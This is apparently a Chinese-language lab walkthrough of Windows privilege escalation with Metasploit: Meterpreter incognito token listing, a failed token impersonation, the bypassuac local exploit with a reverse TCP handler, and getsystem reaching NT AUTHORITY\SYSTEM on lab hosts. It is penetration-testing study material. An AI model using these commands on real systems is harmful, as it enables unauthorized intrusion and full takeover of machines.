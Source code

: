 尝试的第一种方式

```
meterpreter > use incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
GOD\Administrator
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM

Impersonation Tokens Available
========================================
NT AUTHORITY\ANONYMOUS LOGON

meterpreter > impersonate_token NT AUTHORITY\SYSTEM
[-] User token NT not found
```

之后第二种方式成功了

首先将session挂到后台使用命令background

```
msf > use exploit/windows/local/bypassuac
msf exploit windows/local/bypassuac) > set session 1
msf6 exploit(windows/local/bypassuac) > exploit 

[*] Started reverse TCP handler on 192.168.111.129:4444 
[-] Exploit aborted due to failure: none: Already in elevated state
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/bypassuac) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ STU1  192.168.111.129:50000 -> 192.168.111.128:1064 (192.168.111.128)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ STU1  192.168.111.129:50000 -> 192.168.111.128:1065 (192.168.111.128)

```

之后看上面information部分这就是最高权限

我们查看一下

```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

